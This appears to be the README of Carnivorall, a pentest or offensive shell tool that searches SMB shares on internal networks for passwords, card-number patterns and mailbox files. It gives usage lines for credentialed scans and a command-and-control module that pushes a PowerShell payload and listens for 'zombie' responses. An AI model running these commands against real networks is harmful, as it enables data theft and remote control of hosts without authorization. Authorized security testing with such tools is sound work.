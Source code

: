 ```                                                                                     
   ▄████▄   ▄▄▄       ██▀███   ███▄    █  ██▓ ██▒   █▓ ▒█████   ██▀███   ▄▄▄       ██▓     ██▓    
  ▒██▀ ▀█  ▒████▄    ▓██ ▒ ██▒ ██ ▀█   █ ▓██▒▓██░   █▒▒██▒  ██▒▓██ ▒ ██▒▒████▄    ▓██▒    ▓██▒    
  ▒▓█    ▄ ▒██  ▀█▄  ▓██ ░▄█ ▒▓██  ▀█ ██▒▒██▒ ▓██  █▒░▒██░  ██▒▓██ ░▄█ ▒▒██  ▀█▄  ▒██░    ▒██░    
  ▒▓▓▄ ▄██▒░██▄▄▄▄██ ▒██▀▀█▄  ▓██▒  ▐▌██▒░██░  ▒██ █░░▒██   ██░▒██▀▀█▄  ░██▄▄▄▄██ ▒██░    ▒██░    
  ▒ ▓███▀ ░ ▓█   ▓██▒░██▓ ▒██▒▒██░   ▓██░░██░   ▒▀█░  ░ ████▓▒░░██▓ ▒██▒ ▓█   ▓██▒░██████▒░██████▒
  ░ ░▒ ▒  ░ ▒▒   ▓▒█░░ ▒▓ ░▒▓░░ ▒░   ▒ ▒ ░▓     ░ ▐░  ░ ▒░▒░▒░ ░ ▒▓ ░▒▓░ ▒▒   ▓▒█░░ ▒░▓  ░░ ▒░▓  ░
    ░  ▒     ▒   ▒▒ ░  ░▒ ░ ▒░░ ░░   ░ ▒░ ▒ ░   ░ ░░    ░ ▒ ▒░   ░▒ ░ ▒░  ▒   ▒▒ ░░ ░ ▒  ░░ ░ ▒  ░
  ░          ░   ▒     ░░   ░    ░   ░ ░  ▒ ░     ░░  ░ ░ ░ ▒    ░░   ░   ░   ▒     ░ ░     ░ ░   
  ░ ░            ░  ░   ░              ░  ░        ░      ░ ░     ░           ░  ░    ░  ░    ░  ░
  ░                                               ░                                               
 
 ```
                                          CARNIVORALL
                --=={ Looking for sensitive information on local network }==-- 
                
# Authors: L0stControl and BFlag

# Intro

Scan internal network looking for files with sensitive information on SMB shares. 

# Usage

        Usage: ./carnivorall.sh [options]
    
        -n, --network <CIDR>                        192.168.0.0/24
        -l, --list <inputfilename>                  List of hosts/networks
        -d, --domain <domain>                       Domain network
        -u, --username <guest>                      Domain username 
        -p, --password <guest>                      Domain password
        -o, --only <contents|filenames|yara|regex>  Search ONLY by sensitve contents, filenames or yara 
                                                    rules
        -m, --match "user passw senha"              Strings to match inside files (not default)
        -r, --regex "4[0-9]{12}[0-9]?{3}"           Search contents using REGEX
        -y, --yara <juicy_files.txt>                Enable Yara search patterns (not default)
        -e, --emails <y|n>                          Download all *.pst files (Prompt by default) 
        -D, --delay <Number>                        Delay between requests
       -lD, --localfolder /path/                    For search sensitive information in local files  
        -h, --help                                  Display options
        -g, --google <max items>                    Search files on the website using Google 
                                                    (Obs: Set to "0" to search in local files)
        -w, --website "domain.com"                  Website used at *-g/--google* feature
        
        Ex1: ./carnivorall -n 192.168.0.0/24 -u Admin -p Admin -d COMPANY  
        Ex2: ./carnivorall -n 192.168.0.0/24 -u Admin -p Admin -d COMPANY -o filenames
        Ex3: ./carnivorall -n 192.168.0.0/24 -u Admin -p Admin -d COMPANY -o yara -y juicy_files.txt

        -={ Command & Control Module }=-

        -lH, --lhost 192.168.0.1                     Local ip to receive zombies responses
        -lP, --lport 80                              Local port to listen
        -pP, --pspayload <payload.ps1>               Powershell payload file

        Ex4: ./carnivorall -n 192.168.0.0/24 -u Admin -p Admin -d COMPANY -lH 192.168.1.2 
             -pP ./payload.ps1 -lP 80 
        Ex5: ./carnivorall -lH 192.168.1.2 -pP ./payload.ps1 -lP 80 # Listen mode.

# Requirements:

- cifs-utils 
- GhostScript
- zip
- ruby (gems -> nokogiri / httparty / colorize)
- yara (only to use -y option)


```
                               ,##############*                                          
                         ####**/*******/*********/##.                                    
                       #******************************##                                 
                        ###/***************/************/##                              
                        ##(*#(*****//*********/************##                            
                        ../##*##//****/**********/**/********##                          
                       .#  ##.#/#(##****************/**********##                        
                            ##   ##**##/***********************/(#                       
                             #   #.* #***##/*/************/**/****#                      
                          #.,  ,##,   /./#***##(*******************#                     
                      ###/*(##.,.  #*%#. /,.# #***##/*******/*******#                    
                       #**/*##(***#,#  #.* ### ###/####/##*****#****#                    
                        #/*/*/***/###(*####..####.##,#.#######*/#***/#                   
                         #******/******/*(###############(****/#****/#                   
                          ##******************************#(*******/#                    
                            #(************//************************#                    
                              ##**********************/************#                     
                                 ##***/*//******************/*****#                      
                             ####    ###******************/*****(#          #*/*//#      
                  (******.   #****###     .######(//***********#/         #/*/##/***#    
                (/       (*# ##*****/(##          ##*********#/       ## (**#    #**/,   
               ./         #*# #/**/*//*/##      ##*******//#     ###***##//#      ***#   
                /#        #*( ##***#***/**#  ##/********###(*###******(#**#      .**/#   
                          (*#  #**/**##**(/#//*******(##**##(**//*(***#/##(   .##***/    
              #############/   /#//(###(*/#*******/##/*###/***/##*/**##/*********/*#     
              .#*****/*/**//*#####**/***#(********#..##**//*/*#/****## ###/***/*#(       
                #/****#(***/*/***/*###(/*#********###*/***//#*////###     #//**/##       
                 ##/*****###**#********##//******/#/****(*****//*****#         ##*(#     
                  ###/*****/((##*//**(****##****##****(///****/*/*****/#         (*#     
                #***###(//****//*(##*#(*/***/#*#//**#(*****/###***#**/*/##  #/   (*#     
               //*#    %%##*******#***********#/****/*****/#%%%%#*( *****.   *  .##,     
              /**#     %(((((((##*******///*/#/*/#%%%%%%(((((((%.(*##****#  ((           
 #(**#       #**/      %(((((((#**/**#(((((((((((((((((((((((((%  #/(/***#/**            
#*          #/*,       %(((((((***/#((((((((((((((((  (/(/(((/(*,,,,*////(,,((///////(*,,
*#         #**,        %(((((#****(((((((((((((((.,((( ((((/.((#,,,,*////((///((((((///(*
/(        /**            #%%(****((((((((((((((((((,(,(((######,,,,,,////(/(/,,,,,,,,(//(
/*(     #**#              %(#***##%%%%#((((((((#%%%%%%#(((((#%       #/**/           #/**
  #******#                %##***#(((((((((((((((((((((((((((%%       ##***/#        #**/#
                          %##**/((((((((((((((((((((((((((((%%      .#*#*****/*##(*****# 
               ####       %%#**/((((((((((((((((((((((((((((%%      *(/#  #***//**/*(%   
            (#/#####      (%#**/((((((((((((((((((((((((((((%*       #*#*                
           #*(             %#**/((((((((((((((((((((((((((((%         ##*                
           (*/             %#/**((((((((((((((((((((((((((((%                            
          (*/              %/**#(((((((((((((((((((((((((((#%                            
          .**/             #***((((((((((((((((((((((((((((%%                            
           #*#            #***(((((((((((((((((((((((((((((%%                            
            #**#         ***(((((((((((((((((((((((((((((((%,                            
             #/**/#* .#/***#%((((((((((((((((((((((((((((((%                             
                #/******#,  %((((((((((((((((((((((((((((((%                             
                            %((((((((((((((((((((((((((((((%                             
,.,.,.,,                    /%%%%#((((((((((((((((((((((#%%%              
 ```      

Special thanks to:

https://github.com/DiabloHorn/yara4pentesters

Awesome project =)
